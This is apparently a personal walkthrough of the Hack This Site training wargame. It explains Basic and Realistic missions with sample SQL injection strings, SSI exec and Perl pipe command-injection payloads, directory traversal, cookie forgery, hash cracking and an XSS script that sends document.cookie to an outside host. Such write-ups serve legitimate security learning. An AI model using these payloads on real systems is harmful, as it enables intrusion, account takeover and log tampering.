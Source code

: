 # [Hack This Site](https://www.hackthissite.org/)

## Basic

1. (HTML) Password is written in source code
2. (-) Enter blank password
3. (HTML) Password file name is written in source code => go read it
4. (HTML) The email address can be edited in the source to mail the password to yourself
    * Save the file on desktop, edit the email and click
5. (Javascript) Same as 4 + the URL referrer is checked by the server
    * Use javascript or Firefox console to modify the value of the element on the fly
    * or Same as 4 + spoof referrer using Firefox extension (RefControl)
6. (Ascii) Simple encryption scheme where every character is shifted by 1,2,3,etc.
7. (Unix) Append ls at the end of the command input to get the name of the password file
8. (SSI) Notice how the file ends with .shtml, which allows the execution of shell commands
    * Don't forget to go up one level to get to the password file
    * <!--#exec cmd="ls .." -->
9. (SSI, DT) Directory access is limited, but you can still use the input box from level 8 to access the 9th mission specifically
    * <!--#exec cmd="ls ../../9" -->
10. (Cookies) Password is irrelevant, the login is verified via a cookie that can easily be edited using Javascript
11. (Apache) Login page is located at very common index.php. The trick is finding the directory structure, given away by Elton John songs
    * Access the .htaccess file in /e/... to get to a hidden file containing the password, literally

## Realistic

1. (HTML) The dropdown values can be edited client-side to absurdely high amount allowing the cheating of the poll
2. (SQL Inj.) Check source for login page, then perform a basic SQL injection, e.g. ' or '1'='1
3. (DT) Check the source to locate the old website. From there, find a way to save the old page in place of the hacked one.
    * No need for Unix commands here, simply let the file creation script do the job by submitting the source of oldindex.html under the name ../index.html
4. (SQL Inj.) Submitting an incorrect email provides the name of the customers table 'email'
    * Now, toying with the URL on the products page tells us that 4 fields are expected from the query
    * E.g. 1 UNION ALL SELECT 1,1,1,1
    * Using an UNION, we can elaborate a query returning 4 fields from table 'email'
    * E.g. ?category=1 UNION ALL SELECT *,*,*,* from email OR ?category=1 UNION ALL SELECT email,email,email,email from email
    * Now just go the HTS Message Center on the homepage of HTS and post the list to SaveTheWhales
5. (Robots.txt, Hash crack) Exploring the file system, there are multiple things to notice.
    * There are a couple of hints that a robots.txt file is present to fend off search engines crawlers
    * Accessing that file shows the presence of the two directories "lib" and "secret" (also given away in the Database page source)
    * Then it is just a matter of retrieving the hash, (optional: identifying its type) and cracking it e.g. using online tools
6. (Crypto) XECryption decryption algorithm is as follows: add numbers together 3 by 3, perform frequency analysis to get the code of 'space' character
    * Subtract 32 (Ascii code for 'space' character) to the code and get the key
    * Subtracting the key from each number in the list gives the Ascii code of each character in the message => display char() of each numbe
7. (Apache, DT, Cracking) Browsing the source of the main page reveals the presence of the images/ directory and the showimages.php page that contains a vulnerability
    * Within the images/ direct lies another directory: admin/. Upon accessing it, we can realize it is protected using a Apache configuration .htpasswd file
    * Although we won't be able to access it directly, knowing it exists allows us to try and reach its content via a GET parameter to the showimages.php page
    * Once we get the content of the .htpasswd file, we can just pass it directly to a cracking program such as JohnTheRipper that will reveal the login/password
8. (SQL Inj, Cookie, Javascript) In order to find the login name of GaryHunter we can perform an SQL injection on the search.php page to return all the users.
    * Once we have the login name, we can create an account and login, then edit the cookie to switch the login name: document.cookie="accountUsername=GaryWilliamHunter";
    * The last part requires to change the "Clear personal files" button HTML value to "logFiles" in order to clear the system (and not personal) log files.
9. (XSS, DT, Cookie)  We need to use a XSS vulnerability in the website messaging system to retrieve the login cookie of the boss, however it's beyond the scope of the exercise to actually implement the cookie stealer PHP script
    * In order to do so, we can login using r-conner@crappysoft.com credentials and send a message to the boss using the following client-side scrit injection
    * `<script>window.location = "http://my.website.com/cookiesteal.php?c="+document.cookie</script>` => Get the cookie data and replace own cookie with it
    * document.cookie="strUsername=m-crap%40crappysoft.com;"
    * document.cookie="strPassword=94a35a3b7befff5eb2a8415af04aa16c";
    * document.cookie="intID=1";
    * In order to clear the logs, the mailing list page informs use that it contains a script that automatically deletes all the lines from the file exempt of '@'
    * Note how the file to update is specified in the HTML, thus we can edit it with the path to the logs file, which can be found in the directory hierarchy
10. (Soc. Eng., User Agent, Cookie) In this exercise, the credentials given by the student are never used. Instead, the listing of teachers displays their email, which is composed of their username.
    * By trying out every username on the teacher login page, we find out that one uses her username as password (smill/smiller)
    * Once we have successfully logged on, we are warned that the browser should be a specific one. Circumventing this restriction is done with a user-agent switcher.
    * Now, we need to edit the cookie to gain administrative powers and access the student grades.
    * A final step consists in getting the update URL for each low grades in the source code and simply pasting it in the address bar to run the update script.
11. (Perl) Notice that the way the pages are served is via a Perl script. By using an unexisting page name, it mentions the open() Perl method
    * This method is susceptible to a hack when providing a pipe '|' along with a command in the filename, the command will be executed (via process forking).
    * So we must try to reach this configuration: open(myfile, "ls -l|"); that will make the result of "ls -l" the content of the file displayed by the script.
    * However, we have to work within the restriction of the syntax open(file, "pages/[GET param]");
    * Use a first pipe '|' to pass the page parameter along to ls (effectively disregarding it) and a second one to direct the output of ls to us => page.pl?page=|ls|
    * This provides us with the files in the current directory. Two items are noteworthy: client_http_docs/ and bs.dbase.
    * The directory client_http_docs/ directory contains the hosted website. Looking around, one of the website might allow us into the root DB.
    * On the Radio website, there is script that logs browser visits as logging.html. Here we are supposed to switch user-agent to gain access to an account.
    * However just using account nr 0, we can edit the password and log as a mod (aclu_bomber_08290/change password). This gives us access to a SQLLite command line.
    * It is easy to Google the query listing all tables: SELECT name FROM sqlite_master WHERE type='table';
    * But we don't really want to run this on the Radio website database since it's local. We can actually branch the query script onto the main DB.
    * Changing the target DB in the HTML (and going up 2 ../ levels + 1 ../ more because of the db/ prefix in the script), we access the main DB.
    * SELECT * from web_hosting provides us with the customer accounts, that we can use to log in the admin page (access found under the FAQ section)
    * Once we're logged, we notice that we can't access space46 website directly, but we can browse and download any other resource from the other hoster websites.
    * When we try to download a file, it is served via a d.pl script. Downloading an image will direct to d.pl?file=path/imagefile.jpg. Let us change this to space46/src.tar.gz.

